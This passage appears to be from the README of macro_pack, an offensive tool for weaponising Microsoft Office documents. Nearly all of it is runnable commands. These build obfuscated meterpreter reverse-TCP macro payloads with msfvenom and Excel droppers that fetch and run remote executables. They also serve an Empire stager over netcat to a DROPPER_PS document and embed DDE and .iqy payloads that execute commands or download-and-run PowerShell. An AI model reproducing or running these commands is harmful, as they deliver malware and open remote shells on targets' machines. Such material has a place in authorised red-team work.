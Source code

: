 - List all available templates
```bash
macro_pack.exe --listtemplates
```

- Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```

- Obfuscate Empire stager VBA file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -G myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a file containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```

- Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

<p align="center"><img src="./assets/excel_dde.png" alt="Excel DDE demo"></p>


- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xslx
```

- Run command (notepad.exe) via Excel web query file and DDE
```bash
# 1 Create dde.dat file with next content
=cmd|' /c notepad.exe'!A1
# 2 Host dde.dat on webserver, ex. using macro_pack -l
# 3 Generate .iqy file
macro_pack.exe -G dde.iqy
```
